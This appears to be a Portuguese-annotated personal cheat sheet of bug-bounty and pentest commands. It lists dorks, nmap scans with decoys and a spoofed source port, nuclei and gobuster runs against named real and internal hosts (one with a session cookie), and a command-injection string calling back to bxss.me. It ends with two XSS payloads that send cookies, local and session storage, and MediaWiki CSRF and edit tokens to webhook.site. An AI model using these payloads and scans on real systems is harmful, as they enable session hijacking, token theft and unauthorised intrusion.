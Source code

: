 "Vulnerability Disclosure Program" "VDP" site:uk -bughunt -hackerone -intigriti -bugcrowd -yeswehack

https://dorks.faisalahmed.me/


nmap -sU -p 53 --script=dns-nsid 10.129.2.48 -> ver~soa dns do servidor alvo pode ser vuln de exposição de dados sensiveis etc


subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/2025/CVE-2025-0133.yaml


nmap 10.129.4.84 -sV -D RND:2 -Pn -sU -sS -g53 --max-retries 2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-

nuclei -t cves/ -u http://alvo.com -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

extensão dotgit, wappalyzer, shodan, DNSlytics

nuclei -u https://cursos.rizomasur.org -tags moodle

`
<img src="x" onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
`

gobuster dir -u https://app.homolog.itamaraty.local/GestaoFinanceira/Pages/Dashboard/   -w /usr/share/wordlists/dirb/common.txt   -t 50   -H 'Host: app.homolog.itamaraty.local'   -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc; outro_cookie=valor'   -k -x html,php,js,aspx,bat,txt,zip

- ;(nslookup -q=cname hitvvbmacavlf462a1.bxss.me||curl hitvvbmacav  (passar em alguns headers)


- https://github.com/santoru/shcheck -> ver se tem alguns headers vulneraveis
- apt install zaproxy (uma boa tb pra scan web)

```bash

<img src="invalid" onerror="
  var data = {
    cookies: document.cookie,
    localStorage: {},
    sessionStorage: {},
    mediawikiTokens: {},
    userInfo: {}
  };

  // Capturar todos os dados do localStorage
  for(var i=0; i<localStorage.length; i++) {
    var key = localStorage.key(i);
    data.localStorage[key] = localStorage.getItem(key);
  }

  // Capturar todos os dados do sessionStorage
  for(var i=0; i<sessionStorage.length; i++) {
    var key = sessionStorage.key(i);
    data.sessionStorage[key] = sessionStorage.getItem(key);
  }

  // Tenta obter tokens do MediaWiki especificamente
  try {
    if (typeof mw !== 'undefined' && mw.user && mw.user.tokens) {
      data.mediawikiTokens = {
        editToken: mw.user.tokens.get('editToken'),
        csrfToken: mw.user.tokens.get('csrfToken'),
        watchToken: mw.user.tokens.get('watchToken')
      };
    }
  } catch(e) {}

  // Informações do usuário
  try {
    if (typeof mw !== 'undefined' && mw.config) {
      data.userInfo = {
        userName: mw.config.get('wgUserName'),
        userId: mw.config.get('wgUserId'),
        pageName: mw.config.get('wgPageName'),
        canonicalNamespace: mw.config.get('wgCanonicalNamespace'),
        revisionId: mw.config.get('wgRevisionId'),
        articleId: mw.config.get('wgArticleId')
      };
    }
  } catch(e) {}

  fetch('https://webhook.site/ce0ff999-b412-490d-aa38-f946520e63b0', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(data)
  });
">

```
